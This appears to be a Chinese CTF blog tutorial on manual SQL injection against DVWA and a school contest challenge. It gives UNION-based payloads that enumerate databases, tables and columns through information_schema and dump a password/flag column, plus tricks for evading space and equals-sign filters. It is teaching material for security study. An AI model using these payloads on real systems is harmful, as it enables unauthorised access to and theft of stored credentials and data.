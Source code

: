 ```yaml
---
title: SQL基础
date: 2020-12-08
description: SQL手工注入的基本步骤，绕过空格、等号
category: 信息安全
tags:
  - CTF
  - SQL
---
```

# 判断注入类型  
输入`1' and 1=2 #`，这明显是不成立的，如果回显正常，说明不是字符型注入，不是单引号闭合；如果报错，证明是字符型注入  
同理，输入`1 and 1=2 #`判断是否是数字型注入  
以DVWA的sql(low)为例，输入`1 and 1=2 #`没有报错，证明这不是数字型注入：
![不是数字型注入](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/master/assets/images/SQL/dvwa.png)
而输入`1' and 1=2 #`报错，是字符型注入
# 爆显示位（字段数）
接下来以校赛题目为例，是字符型注入。原题过滤了空格和等号，这里我们假装没有任何过滤  
用`1' or 1=1 #`可以看到所以的信息，这是因为查询语句变成了查找满足用户名是1或者满足1=1的所有用户。虽然没有用户名为1，但是所有用户名都满足1=1，所以会显示所以用户信息  
## 用order by爆
用`1' or 1=1 order by 5 #`爆显示位。order by 5返回正常，这意味着显示位大于等于5个，一直试到报错为止。这个题加到6就报错了  
order by的意思是按第几个字段排序
## 用union select爆
用`1' union select 1,2,3,4,5 #` 同样一直加到报错为止。用这个有一个好处，就是可以看到数据库和显示出来的数据之间的对应关系  
这是用1,2,3,4,5注入回显正常的情况：
![正常回显](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/master/assets/images/SQL/%E6%A0%A1%E8%B5%9B%E5%9B%9E%E6%98%BE%E6%AD%A3%E5%B8%B8.png)
可以看出虽然有5个字段，但是只有前两个会显示出来，而且顺序没有变  
这是用1,2,3,4,5,6注入回显不正常的情况：
![异常回显](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/master/assets/images/SQL/%E6%A0%A1%E8%B5%9B%E5%9B%9E%E6%98%BE%E5%BC%82%E5%B8%B8.png)
虽然没有提醒异常，但是username不是我们注入的（这个题不管输入什么都会回显PhuoYGT）
# 爆库名
## 用database爆库名
`1' union select 1,database(),3,4,5 #`   
在2号位显示库名，后面的3,4,5用来凑显示位  
这样爆库名只能看到当前的库
![只能看到用户的库](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/master/assets/images/SQL/%E7%88%86%E5%BA%93%E5%90%8D1.png)
## 用information_schema爆库名
```sql
1' union select 1,(select group_concat(schema_name) from information_schema.schemata),3,4,5 #
```
information_schema是元数据库，里面存放了所有数据库的所有信息，比如库名、表名、列、数据类型、访问权限等  
schemata是information_schema中的一个表，里面存放了库名  
group_concat()函数可以把组中的字符串连接成一个字符串，schema_name就是库名，group_concat(schema_name)就是从
information_schema.schemata这个表中搜索schema_name（库名），并且返回为一个字符串
![看到了所有库](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/master/assets/images/SQL/%E7%88%86%E5%BA%93%E5%90%8D2.png)
# 爆表名
```sql
1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema = 'cumtctf'),3,4,5 #
```
information_schema.tables中存放了所有表的信息，table_schema是数据表所属的数据库名  
获取了cumtctf这个库中表的表名：
![表名](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/master/assets/images/SQL/%E7%88%86%E8%A1%A8%E5%90%8D.png)
# 爆列名
```sql
1' union select 1,(select group_concat(column_name) from information_schema.columns where table_name = 'ctfers'),3,4,5 #
```
column_name就是列名，table_name表名（这次不用在库里搜索了，和schema没关系了）  
获得列名如下：
![列名](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/master/assets/images/SQL/%E7%88%86%E5%88%97%E5%90%8D.png)
# 爆flag
## 全爆
```sql
1' union select 1,(select group_concat(password) from ctfers),3,4,5 #
```
这个可以看到password里的所有信息，一堆密码和flag
![爆一堆flag](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/master/assets/images/SQL/%E7%88%86flag1.png)
## 一个一个爆
```sql
1' union select 1,(select password from ctfers limit 15,1),3,4,5 #
```
limit作用是从第15个开始（从0开始计数），返回一个（不能返回多个，显示位就一个）  
一个一个试，试到第15个
![一个一个试](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/master/assets/images/SQL/%E7%88%86flag2.png)
# 绕过姿势要妖娆
## 绕过空格
`/**/`占位置的正则表达  
`%09`tab  
`%20`空格  
## 绕过等号
`regexp`  
`like`  
`rlike`  
都可以代替等号

